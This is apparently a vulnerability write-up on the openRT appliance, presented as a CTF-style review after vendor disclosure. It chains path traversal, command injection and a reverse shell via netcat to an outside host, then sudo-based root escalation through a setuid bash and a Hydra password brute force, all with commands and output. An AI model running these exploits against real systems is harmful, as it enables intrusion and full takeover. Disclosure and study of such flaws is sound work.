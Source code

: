 ```yaml
---
title: openRT Vulnerabilities
description: A review of the openRT appliance as we walkthrough exploiting an RCE and then privilege elevation
date: 2025-02-20
social_image: '/media/images/somuchwin.png'
tags: [openRT, RCE ]
---
```

# Vulnerability Review of openRT

Here we're going to conduct a web application security review of the OpenRT application.

[openRT Github](https://github.com/amcchord/openRT/)

Installed from commit 59185b055ab2cf79e2fc2b1854c11e1a0bb5f798, the latest as of 20-03-25. This is a nice application to review because:

- It is extremely quick and easy to install
- The above is still true if you have no background knowledge of the appliances it works with
- Multiple languages are involved

## Vendor Response

Austin email back within hours of this report (which puts him about nine months ahead of an RMM vendor) clarifying the intended usage of the application, which they immediately documented. A screenshot of the updated README is below:

![openRT Disclaimer](/media/images/openrt_documentation.png)

And to be clear, this is an **entirely acceptable** position as long as you, the user, consider this in your deployment and threat modelling. Accordingly, this write up should be read through the lense of a CTF write up, more than a vulnerability publication.

## Exposed phpinfo()

As a minor annoyance, http://172.17.44.48/phpinfo.php is exposed in a default build.

## Arbitrary download

To describe an actual vulnerability, we can review the file download code here: [download.php](https://github.com/amcchord/openRT/blob/main/web/download.php), specifically:

```php


$agent_id = isset($_GET['agent']) ? $_GET['agent'] : '';
$path = isset($_GET['path']) ? $_GET['path'] : '';

if (!$agent_id || !$path) {
    die("Missing required parameters");
}

// Construct full path
$base_path = "/rtMount/$agent_id";
$full_path = "$base_path/$path";

// Security checks
if (!str_starts_with(realpath($full_path), realpath($base_path))) {
    die("Invalid path");
}
```

You can see there's been an attempt an enforcing a base path. In fact realpath() is exactly the function that's typically forgotten during typical arbitrary file download vulnerabilities. What's special in this case is that the base path is itself able to be set by a user, and `/rtMount/../` has a `realpath()` of the root directory. Therefore the following works:

```bash
$ curl "172.17.44.48/download.php?agent=../&path=../etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
..
```

## RCE

Finally we get to the good stuff. Let's look at [check_mount.php](https://github.com/amcchord/openRT/blob/main/web/check_mount.php)

```php
$mount_path = "/rtMount/$agent_id";

// Check if the directory exists and has mounted volumes
$output = [];
$return_var = 0;
exec("mount | grep '$mount_path' 2>&1", $output, $return_var);
```
This looks to be a classic command injection vulnerabililty. We can first test this runs as expected:

```bash
curl "172.17.44.48/check_mount.php?agent_id=test';touch%20pwned'"
```

And indeed it does, with `/usr/local/openRT/web/pwned` created. Now to exploit it:

```bash
$ curl "172.17.44.48/check_mount2.php?agent_id=test';busybox%20nc%20172.17.33.22%204444%20-e%20sh'"
```

From another tab, we can receive a connection and upgrade it to a full shell:

```bash
none@none-Virtual-Machine:~$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 172.17.44.48 34732
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@openrt:/usr/local/openRT/web$ ^Z
[1]+  Stopped                 nc -lnvp 4444
none@none-Virtual-Machine:~$ stty raw -echo; fg
nc -lnvp 4444

www-data@openrt:/usr/local/openRT/web$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1001(openrt)
www-data@openrt:/usr/local/openRT/web$ 
```

## Root Privilege Elevation

The setup file [kioskSetup.sh](https://github.com/amcchord/openRT/blob/main/setup/kioskSetup.sh) adds sudo privileges for the www-data user for a few specific commands. We can review `rtImport.pl` for this interesting line:

```perl
        $status = `zpool import -d $device $pool_name 2>&1`;
```

The root exploit from here writes itself:

```bash
cp /bin/bash ./bash
sudo /usr/local/openRT/openRTApp/rtImport.pl import "test; chown root ./bash #"
sudo /usr/local/openRT/openRTApp/rtImport.pl import "test; chmod 4755 ./bash #"
www-data@openrt:/usr/local/openRT/web$ ./bash -p
bash-5.2# whoami
root
bash-5.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data),1001(openrt)
```

Given we can use this privesc immediately following the previous RCE, we now have a root RCE.

## Easily brute forced credentials

Default credentials are usually acceptable if you are pushed to change them, but as far as I can tell there's no documented method of changing the generated credential. The file [nassetup.sh](https://github.com/amcchord/openRT/blob/main/setup/nasSetup.sh) uses this code:

```
RANDOM_NUM=$(printf "%04d" $((RANDOM % 10000)))
PASSWORD="openRT-$RANDOM_NUM"
```

The random data involved is very small, specifically limited to four numbers. I generally dislike reporting on brute force vulnerabilities, but below shows a working brute force in under a minute.

```bash

for i in {0000..9999}; do
    echo "openRT-$i" >> openrt.txt
done
                                                                                                                                                   
none@kali:~/practice$ hydra -l explorer -P ./openrt.txt -f ftp://172.17.44.48 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-20 19:59:59
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking ftp://172.17.44.48:21/
[21][ftp] host: 172.17.44.48   login: explorer   password: openRT-0134
[STATUS] attack finished for 172.17.44.48 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-20 20:00:29
```

